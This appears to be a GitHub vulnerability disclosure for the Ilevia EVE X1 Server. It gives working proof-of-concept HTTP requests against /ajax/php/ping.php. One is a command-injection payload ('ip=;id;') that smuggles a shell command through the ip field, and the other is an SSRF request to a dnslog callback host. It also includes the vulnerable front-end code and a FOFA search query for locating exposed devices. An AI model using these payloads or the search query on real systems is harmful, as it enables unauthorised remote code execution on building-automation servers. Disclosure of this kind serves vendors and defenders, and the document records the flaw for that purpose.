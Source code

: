 # ilevia-EVE-X1-Server
ilevia-EVE-X1-Server rce poc；ssrf

## Affected Repository
- Project: Ilevia EVE X1 Server 
- Affect versions: Firmware Version<= 4.7.18.0.eden;Logic Version<=6.00 - 2025_07_21
- File: /ajax/php/ping.php
- homePage: https://www.ilevia.com/
- Dependency: Ilevia EVE X1 Server ( Firmware Version<= 4.7.18.0.eden;Logic Version<=6.00 - 2025_07_21)

## Proof of Concept (PoC)
- rce
```
POST /ajax/php/ping.php HTTP/1.1
Host: 
Accept: */*
Origin: http://
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.66 Safari/537.36
content-type: application/x-www-form-urlencoded
Referer: http://ip/diagnostic/
Content-Length: 6

ip=;id;
```
<img width="1307" height="359" alt="image" src="https://github.com/user-attachments/assets/be1a6130-9a3f-4655-80be-80a89a3e5128" />
- ssrf

```
POST /ajax/php/ping.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.66 Safari/537.36
content-type: application/x-www-form-urlencoded
Content-Length: 6

ip=222.8emgy0.dnslog.cn
```
<img width="1301" height="484" alt="image" src="https://github.com/user-attachments/assets/6b6e044e-c5c3-4282-b9a4-7f7b9e5e3aaf" />
<img width="1162" height="268" alt="image" src="https://github.com/user-attachments/assets/9caa7358-1ccf-46e3-a5ae-baa2da7df74f" />

Front end code

```
function eveCanReachIP(strIP,callback){
	var eve = new eveRequest();
	eve.open("POST","/ajax/php/ping.php",true);
	eve.setRequestHeader("content-type","application/x-www-form-urlencoded");
	eve.onreadystatechange =
	function(){
		switch (eve.readyState) {
		  case 0 : // UNINITIALIZED
		  case 1 : // LOADING
		  case 2 : // LOADED
		  case 3 : // INTERACTIVE
		  break;
		  case 4 : // COMPLETED
			if(eve.status == 200){
				if(eve.responseText == "0"){
					callback(1,eve.responseText);
				}else{
					callback(0,eve.responseText);
				}
			}else{
				callback(1,"[" + eve.status + "][" + eve.responseText + "]");
			}
		  break;
		  default: callback(1,"[" + eve.status + "][" + eve.responseText + "]");
	   }
	}
	eve.send("ip=" + strIP);
}
```
<img width="744" height="388" alt="image" src="https://github.com/user-attachments/assets/44c7d517-1e9b-4bb9-b514-18ee511b1a67" />


## Vulnerability category
- CWE-78 OS Command Injection
- CWE-918 SSRF
## Scope of influence
- fofa：app="ilevia-EVE-X1-Server"
<img width="1482" height="340" alt="image" src="https://github.com/user-attachments/assets/2075aed5-76be-438a-a18e-e2e33380c26f" />
